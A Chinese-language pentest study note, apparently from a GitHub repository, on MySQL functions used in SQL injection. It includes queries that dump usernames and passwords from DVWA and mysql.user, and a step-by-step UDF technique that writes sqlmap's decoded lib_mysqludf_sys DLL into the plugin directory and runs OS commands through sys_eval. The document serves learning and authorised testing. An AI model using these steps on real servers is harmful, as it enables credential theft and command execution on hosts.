Table of Contents                                  
=================                                  

  * [1 数据库函数](#1-数据库函数)                        
     * [1.1 字符串函数](#11-字符串函数)                  
        * [ASCII()](#ascii)                    
        * [CHAR_LENGTH()](#char_length)        
        * [CONCAT()](#concat)                  
        * [CONCAT_WS()](#concat_ws)            
        * [MID()](#mid)                        
     * [1.2 系统信息函数](#12-系统信息函数)                
        * [CONNECTION_ID()](#connection_id)    
        * [CURRENT_USER()](#current_user)      
        * [DATABASE()](#database)              
        * [VERSION()](#version)                
  * [2 执行系统命令](#2-执行系统命令)                      
  * [参考资料](#参考资料)                              

----

## 1 数据库函数

### 1.1 字符串函数

#### ASCII()

返回字符串第一个字符的 ascii 值，同 ORD()

 

#### CHAR_LENGTH()

返回字符串的字符数

```mysql
select char_length('droplet')x;
select char_length((select user from mysql.user limit 0,1))x;
```

 

#### CONCAT()

合并多个字符串

```mysql
select concat('awesome','cool')x;
```

 

#### CONCAT_WS()

与前者相同，但第一个字符串可以当作分隔符

```mysql
select concat_ws('::',user,password)x from dvwa.users;
```

 

#### MID()

截取字符串，与 SUBSTRING()，SUBSTR() 相同

```mysql
select mid('admin',2,1);   # 从第2个位置开始截取1个字符
```

 

### 1.2 系统信息函数

#### CONNECTION_ID()

返回服务器连接 id

 

使用 `show full processlist` 查看当前所有连接



#### CURRENT_USER()

返回当前用户，同 SESSION_USER()、SYSTEM_USER()、USER()

 

#### DATABASE()

返回当前数据库名

 

#### VERSION()

返回数据库版本号

 

----

## 2 执行系统命令

**udf.dll 存放位置分为2种情况：**

1. MySQL 版本大于5.1：
   udf.dll 文件必须放在 MySQL 安装目录的lib\plugin文件夹下。
2. MySQL版本小于5.1：
   Win 2000 的服务器，需要将 udf.dll 文件导到 C:\Winnt\udf.dll 下。
   Win2003 服务器，要将 udf.dll 文件导出在 C:\Windows\udf.dll 下。

sqlmap 自带了 udf.dll 文件在 sqlmap/udf/ 中，但文件经过编码，无法直接使用，可以通过 sqlmap/extra/cloak/cloak.py 解码后使用

```
python cloak.py -d -i ..\..\udf\mysql\windows\64\lib_mysqludf_sys.dll_
```


**查看相关信息：**

```mysql
select @@plugin_dir;
select @@version_compile_os;
```

 

**使用 `into dumpfile` 写入**

**对 lib_mysqludf_sys.dll 文件内容进行16进制编码**：

```mysql
select hex(load_file('D:\\Pentest Tools\\sqlmap\\udf\\mysql\\windows\\64\\lib_mysqludf_sys.dll'))
```

 

**复制编码内容，写入文件**：

```mysql
select unhex('16进制内容') into dumpfile 'D:\\www\\mysql56\\lib\\plugin\\udf.dll';
```

**创建函数：**

```mysql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

**执行命令：**

```mysql
select sys_eval('whoami');
```

 

----

## 参考资料

> https://www.runoob.com/mysql/mysql-functions.html
>
> https://www.freebuf.com/column/210196.html